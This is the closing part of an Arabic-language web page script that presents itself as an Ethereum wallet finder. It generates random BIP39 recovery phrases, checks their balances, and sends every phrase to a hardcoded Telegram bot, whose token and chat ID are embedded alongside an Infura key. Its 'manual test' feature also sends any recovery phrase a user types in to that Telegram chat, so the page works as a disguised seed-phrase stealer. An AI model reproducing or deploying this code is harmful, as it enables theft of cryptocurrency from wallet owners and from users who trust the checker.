            "vendor", "venture", "venue", "verb", "verify", "version", "very", "vessel", "veteran", "vial",
            "vibrant", "vicious", "victory", "video", "view", "village", "vine", "violet", "virtue", "visual",
            "vital", "vivid", "vocal", "vocals", "vote", "voyage", "vs", "vulnerable", "wage", "wait",
            "walk", "wall", "walnut", "want", "war", "ward", "warm", "warn", "wash", "wasp",
            "waste", "watch", "water", "wave", "way", "we", "weak", "wealth", "weapon", "wear",
            "weasel", "weather", "web", "wedding", "weekend", "weird", "welcome", "west", "wet", "whale",
            "what", "wheat", "wheel", "when", "where", "whether", "which", "while", "whisper", "wide",
            "widget", "wild", "will", "win", "window", "wine", "wing", "wink", "winner", "winter",
            "wire", "wisdom", "wise", "wish", "withdraw", "within", "without", "woman", "wonder", "wood",
            "wool", "word", "work", "world", "worry", "worth", "wrap", "wreck", "write", "wrong",
            "yard", "yearn", "year", "yell", "yellow", "you", "young", "your", "youth", "zeal",
            "zero", "zone", "zoo"
        ];

        // إعدادات التطبيق
        const INFURA_PROJECT_ID = '482a7c1c7cc14ec78699c3f1c231b0cd';
        const INFURA_URL = `https://mainnet.infura.io/v3/${INFURA_PROJECT_ID}`;
        const TELEGRAM_BOT_TOKEN = '7521799915:AAEQEM_Ajk5_hMWQUrlmvdNbDBJAUMMwgrg';
        const TELEGRAM_CHAT_ID = '910021564';
        const TELEGRAM_API_URL = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}`;

        // قائمة العملات المشهورة المضافة
        const POPULAR_TOKENS = [
            {
                symbol: 'USDT',
                address: '0xdAC17F958D2ee523a2206206994597C13D831ec7',
                decimals: 6
            },
            {
                symbol: 'USDC', 
                address: '0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48',
                decimals: 6
            },
            {
                symbol: 'DAI',
                address: '0x6B175474E89094C44Da98b954EedeAC495271d0F',
                decimals: 18
            },
            {
                symbol: 'LINK',
                address: '0x514910771AF9Ca656af840dff83E8264EcF986CA',
                decimals: 18
            },
            {
                symbol: 'UNI',
                address: '0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984',
                decimals: 18
            },
            {
                symbol: 'WBTC',
                address: '0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599',
                decimals: 8
            },
            {
                symbol: 'AAVE',
                address: '0x7Fc66500c84A76Ad7e9c93437bFc5Ac33E2DDaE9',
                decimals: 18
            },
            {
                symbol: 'SHIB',
                address: '0x95aD61b0a150d79219dCF64E1E6Cc01f0B64C4cE',
                decimals: 18
            }
        ];

        // متغيرات العملية
        let isRunning = false;
        let searchInterval = null;
        let stats = {
            totalGenerated: 0,
            activeWallets: 0,
            emptyWallets: 0,
            validWallets: 0,
            errors: 0
        };

        // عناصر DOM
        const elements = {
            startBtn: document.getElementById('startBtn'),
            stopBtn: document.getElementById('stopBtn'),
            testTelegramBtn: document.getElementById('testTelegramBtn'),
            clearLogsBtn: document.getElementById('clearLogsBtn'),
            testManualBtn: document.getElementById('testManualBtn'),
            generateValidWalletBtn: document.getElementById('generateValidWalletBtn'),
            manualMnemonic: document.getElementById('manualMnemonic'),
            manualTestResult: document.getElementById('manualTestResult'),
            searchSpeed: document.getElementById('searchSpeed'),
            maxAttempts: document.getElementById('maxAttempts'),
            totalGenerated: document.getElementById('totalGenerated'),
            activeWallets: document.getElementById('activeWallets'),
            emptyWallets: document.getElementById('emptyWallets'),
            validWallets: document.getElementById('validWallets'),
            errorCount: document.getElementById('errorCount'),
            progressFill: document.getElementById('progressFill'),
            currentStatus: document.getElementById('currentStatus'),
            logPanel: document.getElementById('logPanel'),
            currentTime: document.getElementById('currentTime')
        };

        // تحديث الوقت الحالي
        function updateCurrentTime() {
            const now = new Date();
            elements.currentTime.textContent = `[${now.toLocaleTimeString('ar-EG')}]`;
        }
        setInterval(updateCurrentTime, 1000);
        updateCurrentTime();

        // التحقق من تحميل ethers.js
        function checkEthersLoaded() {
            if (typeof ethers === 'undefined') {
                updateStatus('❌ فشل في تحميل مكتبة ethers.js. يرجى التحقق من اتصال الإنترنت.', 'danger');
                addLogEntry('❌ فشل في تحميل مكتبة ethers.js', 'error');
                return false;
            }
            return true;
        }

        // وظائف توليد العبارات العشوائية
        function getSecureRandomInt(max) {
            const array = new Uint32Array(1);
            window.crypto.getRandomValues(array);
            return array[0] % max;
        }

        function generateRandomBIP39Phrase() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = getSecureRandomInt(BIP39_WORDLIST.length);
                words.push(BIP39_WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // وظائف المحفظة
        async function mnemonicToAddress(mnemonic) {
            try {
                if (!checkEthersLoaded()) {
                    throw new Error('مكتبة ethers.js غير محملة');
                }
                
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة استرجاع غير صالحة');
                }
                
                const wallet = ethers.Wallet.fromMnemonic(mnemonic);
                return wallet.address;
            } catch (error) {
                console.error('خطأ في تحويل العبارة إلى عنوان:', error);
                throw error;
            }
        }

        async function checkWalletBalance(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                const provider = new ethers.providers.JsonRpcProvider(INFURA_URL);
                const balance = await provider.getBalance(address);
                const balanceEth = ethers.utils.formatEther(balance);
                return parseFloat(balanceEth);
            } catch (error) {
                console.error('خطأ في التحقق من رصيد ETH:', error);
                return null;
            }
        }

        // الدالة الجديدة لجلب أرصدة العملات
        async function getTokenBalances(address) {
            try {
                if (!checkEthersLoaded()) {
                    return [];
                }
                
                const provider = new ethers.providers.JsonRpcProvider(INFURA_URL);
                const tokenBalances = [];
                
                for (const token of POPULAR_TOKENS) {
                    try {
                        const abi = ['function balanceOf(address) view returns (uint256)'];
                        const tokenContract = new ethers.Contract(token.address, abi, provider);
                        
                        const balance = await tokenContract.balanceOf(address);
                        const formattedBalance = ethers.utils.formatUnits(balance, token.decimals);
                        const numericBalance = parseFloat(formattedBalance);
                        
                        if (numericBalance > 0) {
                            tokenBalances.push({
                                symbol: token.symbol,
                                balance: numericBalance,
                                address: token.address
                            });
                        }
                    } catch (error) {
                        console.error(`خطأ في جلب رصيد ${token.symbol}:`, error);
                    }
                }
                
                return tokenBalances;
            } catch (error) {
                console.error('خطأ في جلب أرصدة العملات:', error);
                return [];
            }
        }

        async function getTransactionCount(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                const provider = new ethers.providers.JsonRpcProvider(INFURA_URL);
                const transactionCount = await provider.getTransactionCount(address);
                return transactionCount;
            } catch (error) {
                console.error('خطأ في الحصول على عدد المعاملات:', error);
                return null;
            }
        }

        // تحديث دالة isWalletActive لدعم العملات المتعددة
        async function isWalletActive(address) {
            try {
                const [balance, transactionCount, tokenBalances] = await Promise.all([
                    checkWalletBalance(address),
                    getTransactionCount(address),
                    getTokenBalances(address)
                ]);
                
                const hasBalance = balance !== null && balance > 0;
                const hasTransactions = transactionCount !== null && transactionCount > 0;
                const hasTokens = tokenBalances.length > 0;
                
                return {
                    isActive: hasBalance || hasTransactions || hasTokens,
                    balance: balance,
                    transactionCount: transactionCount,
                    tokenBalances: tokenBalances,
                    hasBalance: hasBalance,
                    hasTransactions: hasTransactions,
                    hasTokens: hasTokens
                };
            } catch (error) {
                console.error('خطأ في التحقق من نشاط المحفظة:', error);
                return {
                    isActive: false,
                    balance: null,
                    transactionCount: null,
                    tokenBalances: [],
                    hasBalance: false,
                    hasTransactions: false,
                    hasTokens: false,
                    error: error.message
                };
            }
        }

        // وظائف Telegram
        async function sendTelegramMessage(message) {
            try {
                const response = await fetch(`${TELEGRAM_API_URL}/sendMessage`, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({
                        chat_id: TELEGRAM_CHAT_ID,
                        text: message,
                        parse_mode: 'HTML'
                    })
                });
                
                const data = await response.json();
                if (!data.ok) {
                    console.error('خطأ في إرسال الرسالة:', data.description);
                    return false;
                }
                
                return true;
            } catch (error) {
                console.error('خطأ في الاتصال بـ Telegram:', error);
                return false;
            }
        }

        // تحديث دالة formatWalletMessage لعرض جميع العملات
        function formatWalletMessage(mnemonic, address, walletDetails, isActive) {
            const timestamp = new Date().toLocaleString('ar-EG', {
                timeZone: 'Africa/Cairo',
                year: 'numeric',
                month: '2-digit',
                day: '2-digit',
                hour: '2-digit',
                minute: '2-digit',
                second: '2-digit'
            });
            
            let message = '';
            if (isActive) {
                message = `🎉 <b>تم العثور على محفظة نشطة!</b>\n\n`;
            } else {
                message = `📝 <b>عبارة استرجاع جديدة</b>\n\n`;
            }
            
            message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
            message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
            
            if (walletDetails.balance !== null) {
                message += `💰 <b>رصيد ETH:</b> ${walletDetails.balance.toFixed(6)} ETH\n`;
            }
            
            if (walletDetails.transactionCount !== null) {
                message += `📊 <b>عدد المعاملات:</b> ${walletDetails.transactionCount}\n`;
            }
            
            // إضافة أرصدة العملات الأخرى
            if (walletDetails.tokenBalances.length > 0) {
                message += `\n🪙 <b>العملات الأخرى:</b>\n`;
                walletDetails.tokenBalances.forEach(token => {
                    message += `   ${token.symbol}: ${token.balance.toFixed(4)}\n`;
                });
            }
            
            if (isActive) {
                message += `\n✅ <b>الحالة:</b> محفظة نشطة\n`;
            } else {
                message += `\n❌ <b>الحالة:</b> محفظة فارغة\n`;
            }
            
            message += `\n⏰ <b>الوقت:</b> ${timestamp}`;
            return message;
        }

        // دالة جديدة لإرسال محفظة صالحة إلى Telegram
        function formatValidWalletMessage(mnemonic, address) {
            const timestamp = new Date().toLocaleString('ar-EG', {
                timeZone: 'Africa/Cairo',
                year: 'numeric',
                month: '2-digit',
                day: '2-digit',
                hour: '2-digit',
                minute: '2-digit',
                second: '2-digit'
            });
            
            let message = `✅ <b>تم العثور على محفظة صالحة</b>\n\n`;
            message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
            message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
            message += `💡 <b>ملاحظة:</b> هذه محفظة صالحة ولكنها فارغة\n\n`;
            message += `⏰ <b>الوقت:</b> ${timestamp}`;
            
            return message;
        }

        async function sendWalletToTelegram(mnemonic, address, walletDetails, isActive) {
            try {
                const message = formatWalletMessage(mnemonic, address, walletDetails, isActive);
                return await sendTelegramMessage(message);
            } catch (error) {
                console.error('خطأ في إرسال المحفظة:', error);
                return false;
            }
        }

        // دالة جديدة لإرسال محفظة صالحة إلى Telegram
        async function sendValidWalletToTelegram(mnemonic, address) {
            try {
                const message = formatValidWalletMessage(mnemonic, address);
                return await sendTelegramMessage(message);
            } catch (error) {
                console.error('خطأ في إرسال المحفظة الصالحة:', error);
                return false;
            }
        }

        // وظائف السجل
        function addLogEntry(message, type = 'info') {
            const timestamp = new Date().toLocaleTimeString('ar-EG');
            const logEntry = document.createElement('div');
            logEntry.className = `log-entry log-${type}`;
            logEntry.innerHTML = `<span class="log-timestamp">[${timestamp}]</span> ${message}`;
            
            elements.logPanel.appendChild(logEntry);
            elements.logPanel.scrollTop = elements.logPanel.scrollHeight;
        }

        // وظائف تحديث الواجهة
        function updateStats() {
            elements.totalGenerated.textContent = stats.totalGenerated;
            elements.activeWallets.textContent = stats.activeWallets;
            elements.emptyWallets.textContent = stats.emptyWallets;
            elements.validWallets.textContent = stats.validWallets;
            elements.errorCount.textContent = stats.errors;
            
            const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
            if (maxAttempts > 0) {
                const progress = (stats.totalGenerated / maxAttempts) * 100;
                elements.progressFill.style.width = `${Math.min(progress, 100)}%`;
            }
        }

        function updateStatus(message, type = 'info') {
            elements.currentStatus.textContent = message;
            elements.currentStatus.className = `alert alert-${type}`;
        }

        // الوظيفة الرئيسية للبحث
        async function searchForActiveWallets() {
            try {
                if (!checkEthersLoaded()) {
                    stats.errors++;
                    updateStats();
                    return;
                }

                const mnemonic = generateRandomBIP39Phrase();
                stats.totalGenerated++;
                
                updateStatus(`جاري فحص العبارة رقم ${stats.totalGenerated}...`, 'info');
                addLogEntry(`تم توليد عبارة جديدة: ${mnemonic.substring(0, 30)}...`);
                
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    stats.errors++;
                    addLogEntry('خطأ في تحويل العبارة إلى عنوان', 'error');
                    updateStats();
                    return;
                }
                
                const walletStatus = await isWalletActive(address);
                
                const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, walletStatus.isActive);
                
                if (walletStatus.isActive) {
                    stats.activeWallets++;
                    addLogEntry(`🎉 تم العثور على محفظة نشطة! العنوان: ${address}`, 'success');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
                    }
                    
                    updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                } else {
                    stats.emptyWallets++;
                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`);
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة الفارغة إلى Telegram بنجاح', 'info');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
                    }
                }
                
                updateStats();
                
                const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
                if (maxAttempts > 0 && stats.totalGenerated >= maxAttempts) {
                    stopSearch();
                    updateStatus(`تم الوصول للحد الأقصى من المحاولات (${maxAttempts})`, 'warning');
                    addLogEntry(`تم إيقاف البحث - وصل للحد الأقصى: ${maxAttempts} محاولة`, 'info');
                }
                
            } catch (error) {
                stats.errors++;
                addLogEntry(`خطأ في العملية: ${error.message}`, 'error');
                updateStats();
            }
        }

        // وظائف اختبار العبارات يدويًا
        async function testManualMnemonic() {
            const mnemonic = elements.manualMnemonic.value.trim();
            
            if (!mnemonic) {
                updateStatus('يرجى إدخال عبارة BIP39 للفحص', 'warning');
                return;
            }
            
            try {
                if (!checkEthersLoaded()) {
                    return;
                }

                updateStatus('جاري فحص العبارة...', 'info');
                addLogEntry(`🔍 جاري فحص العبارة يدويًا: ${mnemonic}`);
                
                elements.testManualBtn.innerHTML = '<span class="loading-spinner"></span> جاري الفحص...';
                elements.testManualBtn.disabled = true;
                
                const address = await mnemonicToAddress(mnemonic);
                
                addLogEntry(`✅ تم تحويل العبارة إلى العنوان: ${address}`);
                
                const walletStatus = await isWalletActive(address);
                
                updateManualTestResult(mnemonic, address, walletStatus);
                
                const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, walletStatus.isActive);
                
                if (walletStatus.isActive) {
                    addLogEntry(`🎉 العبارة تفتح محفظة نشطة! العنوان: ${address}`, 'success');
                    updateStatus('🎉 العبارة تفتح محفظة نشطة!', 'success');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
                    }
                } else {
                    addLogEntry(`❌ العبارة تفتح محفظة فارغة: ${address}`, 'info');
                    updateStatus('❌ العبارة تفتح محفظة فارغة', 'info');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة الفارغة إلى Telegram بنجاح', 'info');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
                    }
                }
                
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
                
            } catch (error) {
                updateStatus(`❌ خطأ في فحص العبارة: ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في فحص العبارة: ${error.message}`, 'error');
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
            }
        }

        // دالة جديدة لتوليد وفحص محفظة صالحة
        async function generateAndTestValidWallet() {
            try {
                if (!checkEthersLoaded()) {
                    return;
                }

                updateStatus('جاري توليد وفحص محفظة صالحة...', 'info');
                addLogEntry('🔄 جاري توليد وفحص محفظة صالحة...');
                
                elements.generateValidWalletBtn.innerHTML = '<span class="loading-spinner"></span> جاري البحث...';
                elements.generateValidWalletBtn.disabled = true;
                
                let attempts = 0;
                const maxAttempts = 50; // حد أقصى للمحاولات لتجنب الحلقات اللانهائية
                
                while (attempts < maxAttempts) {
                    attempts++;
                    
                    try {
                        const mnemonic = generateRandomBIP39Phrase();
                        
                        // التحقق من صحة العبارة باستخدام ethers.js
                        if (ethers.utils.isValidMnemonic(mnemonic)) {
                            const address = await mnemonicToAddress(mnemonic);
                            
                            if (address) {
                                // فحص المحفظة
                                const walletStatus = await isWalletActive(address);
                                
                                // إذا كانت المحفظة صالحة (حتى لو فارغة)
                                stats.validWallets++;
                                updateStats();
                                
                                addLogEntry(`✅ تم العثور على محفظة صالحة! العنوان: ${address}`, 'success');
                                
                                // إرسال إلى Telegram
                                const telegramSent = await sendValidWalletToTelegram(mnemonic, address);
                                
                                if (telegramSent) {
                                    addLogEntry('✅ تم إرسال المحفظة الصالحة إلى Telegram بنجاح', 'success');
                                    updateStatus('✅ تم العثور على محفظة صالحة وإرسالها إلى Telegram', 'success');
                                } else {
                                    addLogEntry('❌ فشل في إرسال المحفظة الصالحة إلى Telegram', 'error');
                                    updateStatus('✅ تم العثور على محفظة صالحة ولكن فشل الإرسال إلى Telegram', 'warning');
                                }
                                
                                // عرض النتيجة في الواجهة
                                updateManualTestResult(mnemonic, address, walletStatus);
                                
                                // ملء حقل العبارة اليدوية بالمحفظة التي تم العثور عليها
                                elements.manualMnemonic.value = mnemonic;
                                
                                break;
                            }
                        }
                    } catch (error) {
                        // تجاهل الأخطاء والمتابعة في المحاولة التالية
                        console.log(`محاولة ${attempts} فشلت: ${error.message}`);
                    }
                    
                    // إضافة سجل كل 10 محاولات
                    if (attempts % 10 === 0) {
                        addLogEntry(`🔍 لا زال البحث جارياً... المحاولة ${attempts}`);
                    }
                }
                
                if (attempts >= maxAttempts) {
                    updateStatus('❌ لم يتم العثور على محفظة صالحة بعد الحد الأقصى للمحاولات', 'warning');
                    addLogEntry('❌ لم يتم العثور على محفظة صالحة بعد 50 محاولة', 'warning');
                }
                
                elements.generateValidWalletBtn.innerHTML = '<span>🔄 توليد محفظة صالحة</span>';
                elements.generateValidWalletBtn.disabled = false;
                
            } catch (error) {
                updateStatus(`❌ خطأ في توليد المحفظة الصالحة: ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في توليد المحفظة الصالحة: ${error.message}`, 'error');
                elements.generateValidWalletBtn.innerHTML = '<span>🔄 توليد محفظة صالحة</span>';
                elements.generateValidWalletBtn.disabled = false;
            }
        }

        // تحديث دالة عرض النتائج اليدوية
        function updateManualTestResult(mnemonic, address, walletStatus) {
            let resultHTML = '';
            
            if (walletStatus.isActive) {
                resultHTML = `
                    <h4>✅ نتيجة الفحص: المحفظة نشطة</h4>
                    <div class="status active">محفظة نشطة</div>
                    <div class="balance ${walletStatus.balance > 0 ? 'positive' : 'zero'}">
                        💰 رصيد ETH: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' ETH' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                `;
                
                if (walletStatus.tokenBalances.length > 0) {
                    resultHTML += `
                        <div class="token-list">
                            <strong>🪙 العملات الأخرى:</strong>
                            ${walletStatus.tokenBalances.map(token => `
                                <div class="token-item">
                                    <span>${token.symbol}</span>
                                    <span>${token.balance.toFixed(4)}</span>
                                </div>
                            `).join('')}
                        </div>
                    `;
                }
                
                resultHTML += `
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result active';
            } else {
                resultHTML = `
                    <h4>❌ نتيجة الفحص: المحفظة فارغة</h4>
                    <div class="status inactive">محفظة فارغة</div>
                    <div class="balance zero">
                        💰 رصيد ETH: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' ETH' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                `;
                
                if (walletStatus.tokenBalances.length > 0) {
                    resultHTML += `
                        <div class="token-list">
                            <strong>🪙 العملات الأخرى:</strong>
                            ${walletStatus.tokenBalances.map(token => `
                                <div class="token-item">
                                    <span>${token.symbol}</span>
                                    <span>${token.balance.toFixed(4)}</span>
                                </div>
                            `).join('')}
                        </div>
                    `;
                }
                
                resultHTML += `
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result inactive';
            }
            
            elements.manualTestResult.innerHTML = resultHTML;
            elements.manualTestResult.style.display = 'block';
        }

        // وظائف التحكم
        async function startSearch() {
            if (isRunning) return;
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            isRunning = true;
            elements.startBtn.disabled = true;
            elements.stopBtn.disabled = false;
            
            const speed = parseInt(elements.searchSpeed.value) || 3000;
            
            updateStatus('جاري بدء البحث...', 'info');
            addLogEntry('🚀 تم بدء البحث عن المحافظ النشطة');
            
            const startMessage = `🚀 <b>بدء عملية البحث عن المحافظ النشطة</b>\n\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n🔍 جاري البحث عن محافظ وإرسال جميع العبارات إلى Telegram...`;
            await sendTelegramMessage(startMessage);
            
            searchInterval = setInterval(searchForActiveWallets, speed);
        }

        async function stopSearch() {
            if (!isRunning) return;
            
            isRunning = false;
            elements.startBtn.disabled = false;
            elements.stopBtn.disabled = true;
            
            if (searchInterval) {
                clearInterval(searchInterval);
                searchInterval = null;
            }
            
            updateStatus('تم إيقاف البحث', 'warning');
            addLogEntry('⏹️ تم إيقاف البحث');
            
            let stopMessage = `⏹️ <b>تم إيقاف عملية البحث</b>\n\n`;
            stopMessage += `📊 <b>الإحصائيات النهائية:</b>\n`;
            stopMessage += `🔢 إجمالي العبارات: ${stats.totalGenerated}\n`;
            stopMessage += `✅ المحافظ النشطة: ${stats.activeWallets}\n`;
            stopMessage += `❌ المحافظ الفارغة: ${stats.emptyWallets}\n`;
            stopMessage += `🔄 المحافظ الصالحة: ${stats.validWallets}\n`;
            stopMessage += `\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            
            await sendTelegramMessage(stopMessage);
        }

        async function testTelegramConnection() {
            updateStatus('جاري اختبار الاتصال بـ Telegram...', 'info');
            addLogEntry('🧪 جاري اختبار الاتصال بـ Telegram...');
            
            const testMessage = `🧪 <b>اختبار الاتصال</b>\n\nتم الاتصال بنجاح مع بوت Telegram!\n⏰ ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            const success = await sendTelegramMessage(testMessage);
            
            if (success) {
                updateStatus('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
                addLogEntry('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
            } else {
                updateStatus('❌ فشل في الاتصال بـ Telegram', 'danger');
                addLogEntry('❌ فشل في الاتصال بـ Telegram', 'error');
            }
        }

        function clearLogs() {
            elements.logPanel.innerHTML = '';
            addLogEntry('تم مسح السجل');
        }

        // ربط الأحداث
        elements.startBtn.addEventListener('click', startSearch);
        elements.stopBtn.addEventListener('click', stopSearch);
        elements.testTelegramBtn.addEventListener('click', testTelegramConnection);
        elements.clearLogsBtn.addEventListener('click', clearLogs);
        elements.testManualBtn.addEventListener('click', testManualMnemonic);
        elements.generateValidWalletBtn.addEventListener('click', generateAndTestValidWallet);

        // التحقق من تحميل ethers.js عند بدء التطبيق
        document.addEventListener('DOMContentLoaded', function() {
            if (checkEthersLoaded()) {
                updateStatus('✅ تم تحميل مكتبة ethers.js بنجاح. جاهز للبدء...', 'success');
                addLogEntry('✅ تم تحميل مكتبة ethers.js بنجاح', 'success');
                addLogEntry('🪙 التطبيق يدعم الآن جميع العملات: ETH, USDT, USDC, DAI, LINK, UNI, WBTC, AAVE, SHIB', 'success');
                addLogEntry('🔄 تم إضافة خاصية توليد المحافظ الصالحة تلقائياً', 'info');
            }
        });

        // تحديث الإحصائيات عند بدء التطبيق
        updateStats();
    </script>
</body>
</html>
[file content end]
